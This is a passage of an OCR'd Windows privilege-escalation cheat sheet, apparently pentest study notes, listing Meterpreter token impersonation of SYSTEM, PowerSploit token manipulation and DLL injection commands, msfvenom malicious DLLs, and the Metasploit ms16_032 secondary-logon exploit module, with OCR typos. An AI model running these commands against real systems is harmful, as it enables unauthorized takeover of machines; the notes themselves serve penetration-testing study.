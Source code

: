         -   Meterpreter \> load incognito

        -   Meterpreter \> list\_tokens --u

        -   Mterpreter \> impersonate\_token "NT AUTHORITY\\\\SYSTEM"

    -   **With powersploit**

        -   Invoke-TokenManipulation -enumerate

        -   Invoke-TokenManipulation --ImpersonateUser --Username="nt authority\\system"

-   **Autologon User Credential**

-   **Insecure Named Pipes Permissions**

-   **DLL Injection**

    -   DLL injection is a technique which allows an attacker to run arbitrary code in the context of the address space of another process or injecting code (dll) into a running process. If this process is running with excessive privileges then it could be abused by an attacker in order to execute malicious code in the form of a DLL file in order to elevate privileges.

    -   **Manually**

        -   Generate a dll with msfvenom

        -   Inject it With remote dll injector tool -\> which is using the **CreateRemoteThread** technique and it has the ability to inject DLL into ASLR enabled processes. The process ID and the path of the DLL are the two parameters that the tool need

        -   Remotedllinjector64.exe \[pid\] c:\\\\payload.dll

    -   **Metasploit**

        -   Search reflective\_dll\_inhect

        -   Set session \[nb\]

        -   Set pid \[pid\]

        -   Set path \[dll\_path\]

    -   **Powersploit**

        -   Generate a malicious dll with msfvenom

        -   Choose a process with system privilege to inject

        -   Invoke-DLLInjection --ProcessID \[pid\] --dll \[malicious dll location\]

-   **Secondry logon handler**

    -   Secondary logon is a windows service that allows administrators to authenticate and perform administrative tasks with a non-administrator account. However this service fails to sanitize handles during the creation of a new process which could allow a standard user to abuse this in order to perform privilege escalation as he can duplicate a system service thread pool handle

    -   use exploit/windows/local/ms16\_032\_secondary\_logon\_handle\_privesc

-   **Stored credentials**

-   **Hot potato**
